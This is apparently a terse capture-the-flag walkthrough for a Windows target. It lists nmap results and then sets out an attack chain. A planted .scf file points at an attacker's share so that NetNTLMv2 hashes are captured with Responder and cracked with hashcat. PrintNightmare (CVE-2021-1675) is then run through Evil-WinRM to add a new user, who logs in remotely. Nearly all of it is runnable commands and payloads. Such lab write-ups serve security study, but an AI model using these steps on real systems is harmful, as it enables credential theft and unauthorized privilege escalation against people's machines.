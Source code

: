 #### Nmap scan results 
```
80/tcp   open  http         Microsoft IIS httpd 10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds                                       
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) (win-rm)
```

* Save the below code as .scf and find a way to upload it.
```
[Shell]
Command=2
IconFile=\\your_ip\share\pentestlab.ico
[Taskbar]
Command=ToggleDeskto
```
* Run Responder
```
responder -wrf --lm -v -I tun0
```
* Identify the hash with hashid
 should be NetNTLMv2 hash
 
* pass the hash and crack with Hashcat mode -m 5600
-------------------------------------------------------------

### CVE-2021-1675 (priv esc)
> github:https://github.com/calebstewart/CVE-2021-1675 

```
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Restricted
*Evil-WinRM* PS C:\temp> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Unrestricted
*Evil-WinRM* PS C:\temp> Import-Module .\print-nightmare.ps1
*Evil-WinRM* PS C:\temp> Invoke-Nightmare -NewUser "john" -NewPassword "password" -DriverName "PrintMe"
```

* new evil-winrm session
```
evil-winrm -i 192.168.1.1 -u john -p password
```
